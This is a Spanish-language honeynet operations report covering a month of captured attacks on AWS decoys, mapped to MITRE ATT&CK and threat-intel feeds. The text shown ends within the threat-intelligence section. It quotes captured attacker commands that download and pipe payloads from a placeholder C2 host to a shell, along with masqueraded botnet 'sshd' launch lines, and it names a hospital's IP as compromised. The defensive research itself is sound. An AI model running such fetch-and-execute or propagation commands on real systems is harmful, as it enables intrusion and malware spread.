




# Cloud HoneyNet & Automated Threat Intelligence
## Informe Final de Operación
**Período:** 2026-02-04 → 2026-03-06 · **Versión:** 1.0 · **Fecha:** 2026-03-06

---

## Tabla de Contenidos

1. [Resumen Ejecutivo](#1-resumen-ejecutivo)
2. [Introducción y Objetivos](#2-introducción-y-objetivos)
3. [Arquitectura del Sistema](#3-arquitectura-del-sistema)
4. [Metodología](#4-metodología)
5. [Resultados Generales](#5-resultados-generales)
6. [Análisis por Honeypot](#6-análisis-por-honeypot)
7. [Análisis Geográfico](#7-análisis-geográfico)
8. [Correlación MITRE ATT&CK](#8-correlación-mitre-attck)
9. [Threat Intelligence](#9-threat-intelligence)
10. [Hallazgos Críticos](#10-hallazgos-críticos)
11. [Conclusiones](#11-conclusiones)
12. [Recomendaciones](#12-recomendaciones)
13. [Referencias](#13-referencias)
14. [Anexos](#14-anexos)

---

## 1. Resumen Ejecutivo

Este informe documenta los resultados de la operación de una red de señuelos
(HoneyNet) cloud-native desplegada en Amazon Web Services durante un período de
30 días (2026-02-04 al 2026-03-06). El sistema estuvo compuesto por tres
honeypots especializados — **Cowrie**, **T-Pot CE** y **Dionaea** — instrumentados
con el stack **Wazuh Manager + Indexer + Dashboard** para correlación centralizada
de alertas, enriquecimiento automático con feeds de Threat Intelligence (TI) y
visualización en tiempo real.

### Métricas Globales

| Indicador | Valor |
|-----------|-------|
| **Total de eventos capturados** | **137,657** |
| **Honeypots operativos** | 3 (Cowrie, T-Pot CE, Dionaea) |
| **Países de origen identificados** | 15+ |
| **IPs únicas atacantes** | > 200 |
| **Técnicas MITRE ATT&CK confirmadas** | **6** |
| **Alertas de Threat Intelligence** | **85** |
| **IPs con match en blacklists** | 3 confirmadas (score 100/100) |
| **Período de operación** | 30 días |
| **Costo operativo (AWS, 7 días)** | ~USD 21.60 |

### Hallazgos Destacados

El proyecto superó todos los KPIs definidos en el plan de cuatro semanas.
Se identificaron tres hallazgos de alto valor analítico:

1. **Infraestructura scan.visionheight.com**: tres instancias AWS coordinadas
   (`3.130.168.2`, `3.129.187.38`, `18.218.118.203`) con AbuseIPDB score 100/100
   y clasificación GreyNoise **malicious**, operando una campaña de scanning
   global multi-protocolo con división de tareas por servicio.

2. **Máquina hospitalaria comprometida**: la IP `201.187.98.150` pertenece a
   la red del **Hospital Base Valdivia (Chile)** y generó 64,095 eventos de
   SMB scanning en un solo día, comportamiento consistente con malware de
   propagación activo (tipo EternalBlue/WannaCry).

3. **Propagación activa de botnet SSH**: la IP `158.51.96.38` (NetInformatik
   Inc., AbuseIPDB score 100/100, reportada por 924 usuarios distintos) ejecutó
   un binario malicioso camuflado como `sshd` con 50+ IPs target, evidenciando
   propagación activa de botnet en tiempo real capturada por Cowrie.

---

## 2. Introducción y Objetivos

### 2.1 Contexto

Las amenazas en internet dirigidas a infraestructura expuesta son continuas,
automatizadas y globales. Los sistemas honeypot permiten capturar tráfico
malicioso real sin riesgo para activos productivos, constituyendo una fuente
de inteligencia de amenazas de primer orden. Este proyecto implementó una
HoneyNet cloud-native de bajo costo en AWS para demostrar la viabilidad de
sistemas de detección y análisis de amenazas en entornos académicos y PyME.

### 2.2 Objetivos del Proyecto

**Objetivo General:** Diseñar, desplegar y operar una HoneyNet cloud-native
en AWS que capture tráfico malicioso real, lo correlacione con técnicas MITRE
ATT&CK y genere inteligencia de amenazas automatizada durante un período de
operación controlado.

**Objetivos Específicos:**

- OE1: Desplegar tres honeypots diferenciados (SSH, multi-servicio, SMB/malware)
  en instancias EC2 con aislamiento de red mediante VPC y Security Groups.
- OE2: Centralizar la recolección de logs con Wazuh Agent/Filebeat hacia un
  Wazuh Manager con OpenSearch como backend.
- OE3: Implementar correlación automática con feeds de Threat Intelligence
  (AbuseIPDB, GreyNoise) mediante reglas personalizadas en Wazuh.
- OE4: Mapear los eventos capturados a técnicas MITRE ATT&CK con un mínimo
  de 5 técnicas confirmadas.
- OE5: Documentar los hallazgos en un informe técnico reproducible con
  evidencia extraída directamente del sistema.

### 2.3 Alcance

El sistema operó exclusivamente en modo pasivo (captura) sin ejecutar
contramedidas activas hacia los atacantes, en cumplimiento estricto de la
AWS Acceptable Use Policy. Toda la infraestructura fue destruida al cierre
del período de operación para evitar costos residuales.

---

## 3. Arquitectura del Sistema

### 3.1 Diagrama General





### 3.2 Componentes de Infraestructura

| Componente      | Instancia AWS        | Versión  | Rol                                         |
| --------------- | -------------------- | -------- | ------------------------------------------- |
| Cowrie          | t3.micro (EC2)       | -        | Honeypot SSH/Telnet                         |
| T-Pot CE        | m7i-flex.large (EC2) | -        | Honeypot multi-servicio (20+ protocolos)    |
| Dionaea         | t3.micro (EC2)       | -        | Honeypot SMB/HTTP/FTP/MSSQL/malware capture |
| Wazuh Manager   | m7i-flex.large (EC2) | 4.14.2   | SIEM central + correlación TI               |
| Wazuh Indexer   | (co-instalado)       | 4.14.2-1 | Backend OpenSearch                          |
| Wazuh Dashboard | (co-instalado)       | 4.14.2-1 | Kibana-based UI                             |

### 3.3 Seguridad de la Infraestructura

- **VPC aislada** con subred dedicada para honeypots (sin acceso a producción)
- **Security Groups**: ingress irrestricto hacia honeypots; egress bloqueado
  (los honeypots no pueden iniciar conexiones salientes)
- **Network ACLs**: segunda capa de control stateless para reforzar el aislamiento a nivel de subnet, complementando los Security Groups (stateful)
- **CloudTrail habilitado**: auditoría completa de acciones en la cuenta AWS

### 3.4 Pipeline de Datos


Evento en honeypot
→ Wazuh Agent (parseo + normalización)
→ Filebeat (transporte TCP cifrado TLS)
→ Wazuh Manager (correlación + reglas TI)
→ Wazuh Indexer (almacenamiento OpenSearch)
→ Wazuh Dashboard (visualización)
→ Telegram Bot (alertas nivel crítico en tiempo real)


---

## 4. Metodología

### 4.1 Configuración de Honeypots

**Cowrie (SSH Honeypot)**
Configurado como emulador de sistema Linux completo en puerto TCP/22. Se
habilitó el registro de sesiones completas (TTY logging), captura de
credenciales, descarga de archivos y ejecución de comandos. El banner SSH
fue configurado para emular un servidor Ubuntu 22.04 LTS con OpenSSH 8.9.

**T-Pot CE (Multi-Honeypot)**
Suite Docker con 20+ honeypots simultáneos (Cowrie, Dionaea, Honeytrap,
Mailoney, Medpot, entre otros) expuestos en los rangos de puertos completos.
Incluye Attack Map integrada y exportación automática a ElasticSearch/OpenSearch.

**Dionaea (Malware Capture)**
Configurado para capturar intentos de explotación en SMB (TCP/445), HTTP
(TCP/80), FTP (TCP/21), MSSQL (TCP/1433) y SIP. Modo de captura de binarios
maliciosos habilitado para análisis forense posterior.

### 4.2 Correlación de Threat Intelligence

Se implementaron reglas personalizadas en Wazuh (IDs 100578–100580) que
consultan en tiempo real una CDB (Constant Database) local actualizada con
feeds públicos de:

- **AbuseIPDB** (confianza ≥ 80, máx. 90 días)
- **GreyNoise Community API** (clasificación malicious)
- **AlienVault OTX** (indicadores de compromiso activos)

Cuando una IP atacante coincide con la CDB, se genera una alerta de nivel 10+
visible en el dashboard y enviada por Telegram.

### 4.3 Consultas de Análisis (OpenSearch DSL)

Se ejecutaron 9 queries estandarizadas contra el índice OpenSearch para
extraer métricas reproducibles al cierre del período:

| Query | Propósito |
|-------|-----------|
| [Q01](../configs/queries/json/query-01-conteo-honeypot.json) | Conteo total de eventos por honeypot |
| [Q02](../configs/queries/json/query-02-top20-ips.json) | Top 20 IPs atacantes por volumen |
| [Q03](../configs/queries/json/query-03-top-15-paises.json) | Top 15 países de origen por honeypot |
| [Q04](../configs/queries/json/query-04-MITRE-por-honeypot.json) | Técnicas MITRE ATT&CK por honeypot |
| [Q05](../configs/queries/json/query-05-credenciales-cowrie.json) | Credenciales capturadas (Cowrie) |
| [Q06](../configs/queries/json/query-06-timeline-por-dia.json) | Timeline diario de eventos |
| [Q07](../configs/queries/json/query-07-alertas-ti.json) | Alertas de Threat Intelligence |
| [Q08](../configs/queries/json/query-08-comandos-cowrie.json) | Comandos ejecutados (Cowrie sessions) |
| [Q09](../configs/queries/json/query-09-protocolos-dionaea.json) | Distribución de protocolos (Dionaea) |

Los resultados crudos de estas queries se conservan en
`configs/queries/json` como evidencia reproducible.

---

## 5. Resultados Generales

### 5.1 Volumen Total de Eventos

Durante el período de operación se registraron **137,657 eventos** distribuidos
en los tres honeypots de la siguiente manera:

| Honeypot | Eventos | % del Total | Protocolo Principal |
|----------|--------:|:-----------:|---------------------|
| Dionaea | 64,338 | 46.7% | SMB TCP/445 |
| T-Pot CE | 63,481 | 46.1% | Multi-servicio (20+) |
| Cowrie | 9,838 | 7.1% | SSH TCP/22 |
| **TOTAL** | **137,657** | **100%** | |

> **Figura 5.1** — 
> *Vista general del Wazuh Dashboard con el contador total de eventos,
> distribución por honeypot y mapa de ataque en tiempo real.*

### 5.2 Distribución Temporal

La actividad no fue uniforme durante el período. Se identificaron dos picos
de actividad anómalos que superaron 5× el volumen diario promedio:

| Fecha | Eventos | Honeypot Dominante | Causa Identificada |
|-------|---------:|--------------------|---------------------|
| **2026-03-03** | **79,963** | Dionaea (64,303) | SMB mass scan desde IP de Chile |
| **2026-02-22** | **59,313** | Cowrie (33,843) | Campaña credential stuffing SSH |
| 2026-02-27 | 18,792 | Cowrie (8,933) | Campaña SSH secundaria |
| 2026-03-02 | 15,137 | T-Pot (13,644) | Scanning multi-servicio elevado |
| 2026-03-04 | 14,300 | T-Pot (12,100) | Continuación campaña T-Pot |

El volumen diario promedio fue de **4,588 eventos/día** excluyendo los dos
picos principales. El día con menor actividad registró 0 eventos (múltiples
fechas en la semana del 14–19 de febrero, período de menor intensidad).

> **Figura 5.2** — 
> *Gráfico de línea temporal con los eventos diarios durante todo el período,
> mostrando los dos picos principales del 22 de febrero y 3 de marzo de 2026.*

---

## 6. Análisis por Honeypot

### 6.1 Cowrie — SSH Honeypot

Cowrie capturó **9,838 eventos** correspondientes a intentos de autenticación,
sesiones SSH activas y comandos ejecutados por atacantes que lograron ingresar
al entorno simulado.

#### 6.1.1 Credenciales Capturadas

Se registraron **44,153 intentos de autenticación SSH** (incluyendo el período
extendido del índice). El análisis de credenciales revela un patrón uniforme:

**Usuario objetivo:** `root` en el **99.97%** de los intentos (44,143 de 44,153).
Los pocos usernames restantes (`test`, `esroot`, `sonar`, `elk`, `mongo`,
`nginx`, `dolphinscheduler`, `zookeeper`) apuntan a servicios específicos,
sugiriendo que algunos bots emplean listas de usuarios especializadas para
infraestructura big data y middleware.

**Top 15 Combinaciones usuario:contraseña capturadas:**

| Rank | Usuario | Contraseña | Intentos | Categoría |
|------|---------|-----------|--------:|-----------|
| 1 | root | admin | 112 | Palabra común |
| 2 | root | password | 112 | Palabra común |
| 3 | root | 123 | 103 | Numérico simple |
| 4 | root | 12345 | 99 | Numérico simple |
| 5 | root | qwerty | 81 | Teclado secuencial |
| 6 | root | 1234 | 77 | Numérico simple |
| 7 | root | 12345678 | 74 | Numérico simple |
| 8 | root | 1 | 70 | Numérico mínimo |
| 9 | root | 123456789 | 70 | Numérico simple |
| 10 | root | 12 | 67 | Numérico mínimo |
| 11 | root | root123 | 42 | Predecible |
| 12 | root | 111111 | 33 | Repetición |
| 13 | root | 123123 | 27 | Repetición |
| 14 | root | ubuntu | 25 | Default OS |
| 15 | root | root321 | 22 | Predecible |

> **Hallazgo notable:** Se registraron 10 intentos con la contraseña
> `P@ssw0rd2026`, confirmando que los diccionarios de ataque empleados por los
> bots se actualizan con el año en curso. Esta práctica implica que contraseñas
> que incorporan el año vigente no representan fortaleza adicional real.

> **Figura 6.1** — `screenshot-cowrie-credenciales-dashboard.png`
> *Dashboard Wazuh mostrando el ranking de credenciales capturadas por Cowrie.*

#### 6.1.2 Comandos Ejecutados en Sesiones Activas

Se capturaron **19 comandos** en sesiones donde los atacantes ingresaron
exitosamente al entorno simulado. Se identificaron dos perfiles de atacante:

**Perfil A — Atacante Exploratorio** (IP: `38.253.149.48`, USA)

El atacante ejecutó una secuencia de comandos de descarga y ejecución de
payloads, siguiendo el patrón clásico de post-explotación manual:

```bash
wget http://[C2]/a
curl http://[C2]/a
bash
chmod +a
python
curl http://[C2]/x | sh
```

Esta secuencia corresponde a las técnicas MITRE T1105 (Ingress Tool Transfer)
y T1059 (Command and Scripting Interpreter).

**Perfil B — Botnet SSH Propagation** (IPs: `158.51.96.38` USA, `123.58.212.100` China)

Este es el hallazgo de mayor valor técnico del proyecto. El atacante ejecutó:

```bash
chmod +x ./.7178163538414610265/sshd
nohup ./.7178163538414610265/sshd \
  121.224.5.228 100.34.10.200 159.203.35.6 \
  [+47 IPs adicionales] &
```

El mismo patrón fue replicado por dos IPs chinas en sesiones separadas:

```bash
chmod +x ./.2430654486045462639/sshd
nohup ./.2430654486045462639/sshd [50 IPs] &

chmod +x ./.6431615505498665513/sshd
nohup ./.6431615505498665513/sshd [50 IPs] &
```

**Análisis:** El binario malicioso es camuflado con el nombre `sshd` (nombre
de proceso legítimo del sistema) almacenado en un directorio de nombre
numérico aleatorio para evadir detección por nombre. Se lanza como proceso
daemon con `nohup ... &` para persistencia. Se le pasan 50+ IPs como targets
de propagación, confirmando que cada nodo comprometido recibe una lista de
próximas víctimas — arquitectura típica de un **worm SSH / botnet
auto-propagante**. La coordinación entre IPs de USA y China sugiere uso
del mismo C2 o toolkit compartido.

**Técnicas MITRE adicionales identificadas:**

- **T1036.005** — Masquerading: Match Legitimate Name (binario `sshd` falso)
- **T1543** — Create or Modify System Process (persistencia con `nohup`)
- **T1570** — Lateral Tool Transfer (lista de IPs para propagación)

### 6.2 T-Pot CE — Multi-Honeypot

T-Pot CE capturó **63,481 eventos** distribuidos en múltiples servicios
simulados simultáneamente. Representa el 46.1% del tráfico total y la
fuente más diversa en cuanto a tipos de ataque.

#### 6.2.1 Distribución por Servicio

T-Pot expone más de 20 honeypots especializados en paralelo. Los servicios
con mayor actividad registrada fueron:

- **Cowrie** (dentro de T-Pot): SSH/Telnet scanning
- **Honeytrap**: captura de exploits en puertos arbitrarios
- **Dionaea** (dentro de T-Pot): SMB/HTTP scanning
- **Mailoney**: intentos de relay SMTP
- **Medpot**: probes a dispositivos médicos (HL7/DICOM)

La técnica MITRE predominante fue **T1046 — Network Service Discovery**
con 41,859 eventos, representando el patrón de reconocimiento masivo
automatizado característico de escáneres de internet como Shodan, Masscan
y herramientas de botnet.

### 6.3 Dionaea — Malware Capture Honeypot

Dionaea capturó **64,338 eventos**, siendo el honeypot con mayor volumen
absoluto (46.7% del total). Su especialización en SMB lo convirtió en el
receptor del pico de actividad más intenso del período.

#### 6.3.1 Distribución por Puerto

| Puerto | Protocolo | Eventos | % |
| --: | :-- | --: | :--: |
| **445** | SMB | 64,178 | **99.4%** |
| **80** | HTTP | 112 | 0.17% |
| **1433** | MSSQL | 34 | 0.05% |
| **21** | FTP | 11 | 0.017% |
| Otros | — | 3 | <0.01% |

El dominio absoluto del puerto 445 (SMB) refleja que el principal vector
de ataque capturado por Dionaea fue el scanning masivo de SMB, directamente
asociado al evento del 2026-03-03 generado por la IP del Hospital Base Valdivia
(Chile). Ver Sección 10.2 para análisis detallado.

**Hallazgo MSSQL:** Los 34 intentos contra el puerto 1433 (SQL Server)
indican la presencia de bots especializados en búsqueda de bases de datos
Microsoft SQL Server expuestas — vector común de exfiltración de datos
y ransomware en entornos Windows corporativos.

#### 6.3.2 Técnicas MITRE en Dionaea

- **T1021.002** (SMB/Windows Admin Shares): 64,171 eventos — scanning masivo
de shares administrativos SMB, técnica de movimiento lateral y propagación
- **T1203** (Exploitation for Client Execution): 159 eventos — intentos de
explotación de vulnerabilidades en servicios capturados

---

## 7. Análisis Geográfico

### 7.1 Top 15 Países Atacantes

Se identificaron atacantes de **15 países** con registro de más de 300 eventos
cada uno, más un grupo de cola con 2,651 eventos distribuidos en países
adicionales no listados individualmente.


| Rank | País | Total | T-Pot | Cowrie | Dionaea | Observación |
| :-- | :-- | --: | --: | --: | --: | :-- |
| 1 | 🇨🇱 Chile | 64,142 | 29 | — | 64,113 | Una sola IP comprometida |
| 2 | 🇺🇸 United States | 41,923 | 32,416 | 9,389 | 74 | Multi-honeypot, visionheight.com |
| 3 | 🇬🇧 United Kingdom | 5,768 | 5,628 | 125 | 15 | Predominio T-Pot |
| 4 | 🇧🇬 Bulgaria | 2,743 | 2,742 | 1 | — | Solo T-Pot (bots multi-svc) |
| 5 | 🇨🇦 Canada | 2,287 | 2,221 | 60 | 6 | Predominio T-Pot |
| 6 | 🇳🇱 Netherlands | 1,940 | 1,782 | 141 | 17 | Predominio T-Pot |
| 7 | 🇨🇳 China | 1,428 | 1,398 | 12 | 18 | Botnet SSH propagation |
| 8 | 🇩🇪 Germany | 1,302 | 1,180 | 103 | 19 | Multi-honeypot |
| 9 | 🇫🇷 France | 1,181 | 1,164 | 12 | 5 | Predominio T-Pot |
| 10 | 🇺🇦 Ukraine | 824 | 820 | — | 4 | Solo T-Pot |
| 11 | 🇷🇺 Russia | 608 | 603 | 3 | 2 | Predominio T-Pot |
| 12 | 🇭🇰 Hong Kong | 446 | 377 | 62 | 7 | Multi-honeypot |
| 13 | 🇸🇬 Singapore | 323 | 302 | 19 | 2 | Predominio T-Pot |
| 14 | 🇦🇺 Australia | 322 | 318 | 4 | — | Solo T-Pot |
| 15 | 🇮🇳 India | 301 | 220 | 77 | 4 | Multi-honeypot |

> **Nota de interpretación:** Chile lidera el ranking volumétrico debido
> exclusivamente al evento de SMB masivo del 2026-03-03. Sin ese evento,
> **Estados Unidos domina** con presencia en los tres honeypots, lo que
> refleja mayor diversidad y sofisticación en las herramientas de ataque.
> Bulgaria aparece exclusivamente en T-Pot, patrón consistente con bots
> especializados en scanning de servicios web y gestión remota (RDP, WinRM).

> **Figura 7.1** — `screenshot-geomap-paises.png`
> *Mapa geográfico en Wazuh Dashboard mostrando la distribución
> global de eventos por país de origen durante un periodo de operación de 5 días.*

### 7.2 Top 10 IPs Atacantes Externas

*(IPs internas de VPC y servicios de metadata de AWS excluidos: `10.0.10.76`,
`10.0.0.2`, `10.0.10.1`, `169.254.169.123`, `169.254.169.254`)*


| Rank | IP                | País             | Eventos | TI Match | Honeypot Principal |
| :--- | :---------------- | :--------------- | ------: | :------: | :----------------- |
| 1    | `201.187.98.150`  | 🇨🇱 Chile       |  64,095 |    —     | Dionaea            |
| 2    | `23.122.167.191`  | 🇺🇸 USA         |   8,764 |    —     | T-Pot / Cowrie     |
| 3    | `185.177.72.22`   | 🇫🇷 France      |     781 |    —     | T-Pot              |
| 4    | `3.130.168.2`     | 🇺🇸 USA         |     267 |  **TI**  | Cowrie             |
| 5    | `18.116.101.220`  | 🇺🇸 USA         |     245 |    —     | T-Pot              |
| 6    | `89.248.168.239`  | 🇳🇱 Netherlands |     228 |    —     | T-Pot              |
| 7    | `3.129.187.38`    | 🇺🇸 USA         |     209 |  **TI**  | Dionaea            |
| 8    | `16.58.56.214`    | 🇺🇸 USA         |     207 |    —     | T-Pot              |
| 9    | `134.199.154.227` | 🇦🇺 Australia   |     193 |    —     | T-Pot              |
| 10   | `18.218.118.203`  | 🇺🇸 USA         |     174 |  **TI**  | Cowrie + Dionaea   |

Las tres IPs con match TI (`3.130.168.2`, `3.129.187.38`, `18.218.118.203`)
pertenecen a la misma infraestructura `scan.visionheight.com`, analizada
en detalle en la Sección 9.

---

## 8. Correlación MITRE ATT\&CK

### 8.1 Técnicas Identificadas

Se confirmaron **6 técnicas MITRE ATT\&CK** con evidencia directa en los logs
capturados, superando el KPI objetivo de 5 técnicas:


| Técnica                                 | ID MITRE  | Táctica           | Honeypot | Eventos | Confianza |
| :-------------------------------------- | :-------- | :---------------- | :------- | ------: | :-------: |
| Network Service Discovery               | T1046     | Discovery         | T-Pot    |  41,859 |   Alta    |
| SMB/Windows Admin Shares                | T1021.002 | Lateral Movement  | Dionaea  |  64,171 |   Alta    |
| Exploitation for Client Execution       | T1203     | Execution         | Dionaea  |     159 |   Alta    |
| Password Guessing / Credential Stuffing | T1110.001 | Credential Access | Cowrie   |  44,153 |   Alta    |
| Command and Scripting Interpreter       | T1059     | Execution         | Cowrie   |      19 |   Alta    |
| Brute Force                             | T1110     | Credential Access | Cowrie   |      11 |   Alta    |

**Técnicas adicionales inferidas** (evidencia indirecta en comandos capturados):


| Técnica | ID MITRE | Táctica | Evidencia |
| :-- | :-- | :-- | :-- |
| Ingress Tool Transfer | T1105 | C\&C | `wget/curl http://[C2]/payload` |
| Masquerading: Legitimate Name | T1036.005 | Defense Evasion | Binario `sshd` malicioso |
| Create or Modify System Process | T1543 | Persistence | `nohup ./sshd [IPs] &` |
| Lateral Tool Transfer | T1570 | Lateral Movement | Lista de 50+ IPs en argumento |

### 8.2 Cadena de Ataque Observada (Kill Chain)

La secuencia completa observada en las sesiones de botnet SSH corresponde a:

```
Reconocimiento     →  T1046  Network Service Discovery (T-Pot)
Acceso Inicial     →  T1110.001  Password Guessing (Cowrie SSH)
Ejecución          →  T1059  Command & Scripting Interpreter
Persistencia       →  T1543  Create/Modify System Process (nohup)
Evasión            →  T1036.005  Masquerading (sshd falso)
Movimiento Lateral →  T1021.002  SMB Admin Shares (Dionaea)
Propagación        →  T1570  Lateral Tool Transfer (lista IPs botnet)
```

---

## 9. Threat Intelligence

### 9.1 Sistema de Correlación TI

El Wazuh Manager ejecutó correlación en tiempo real contra una CDB local
actualizada con los feeds de AbuseIPDB, GreyNoise y OTX. Las reglas
100578–100580 generaron un total de **85 alertas de nivel 10+** durante
el período, correspondientes a 3 IPs únicas con match confirmado.

### 9.2 Tabla Consolidada de IPs Investigadas

Se investigaron las 5 IPs de mayor relevancia mediante consulta directa
a las APIs de AbuseIPDB (v2) y GreyNoise Community, ejecutadas el
2026-03-06.


| IP | País | ISP / Hostname | Abuse Score | GN Class | Reportes Globales | Usuarios | Clasificación Final |
| :-- | :-- | :-- | :--: | :--: | --: | :--: | :-- |
| `201.187.98.150` | 🇨🇱 Chile | HOSPITAL BASE VALDIVIA | **3/100** | suspicious | 4 | 1 | Máquina comprometida |
| `3.130.168.2` | 🇺🇸 USA | scan.visionheight.com / AWS | **100/100** | malicious | 3,122 | 577 | Scanner organizado |
| `3.129.187.38` | 🇺🇸 USA | scan.visionheight.com / AWS | **100/100** | malicious | 3,753 | 633 | Scanner organizado |
| `18.218.118.203` | 🇺🇸 USA | scan.visionheight.com / AWS | **100/100** | malicious | 3,801 | 625 | Scanner organizado |
